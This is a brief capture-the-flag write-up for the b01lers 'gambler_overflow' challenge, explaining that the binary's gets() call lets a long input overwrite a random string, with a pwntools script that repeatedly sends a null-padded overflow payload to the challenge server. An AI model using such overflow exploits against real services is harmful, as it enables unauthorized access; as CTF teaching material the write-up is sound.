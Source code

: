 ## Question 

Feeling luuuuuuuucky?

You must create a flag.txt in the same folder as the binary for it to run.

nc ctf.b01lers.com 9203

Author: robotearthpizza

Difficulty: Easy 

[gambler_overflow](gambler-baby2) 


## Solution

The binary uses ```gets```, which we can abuse to overflow the local variable containing the random string.

```
0000158d          printf(format: "Guess me a string of length 4 wi…")
0000159e          gets(buf: &var_20)
000015b6          printf(format: "Your guess: %s\n", &var_20)
```

```python
from pwn import *

p = process('./gambler-baby2')
p = remote('ctf.b01lers.com', 9203)

while (True):
    data = b'A\0'*8+b'A\0'*8
    p.sendline(data)
    print(p.recvline())

p.interactive()
```


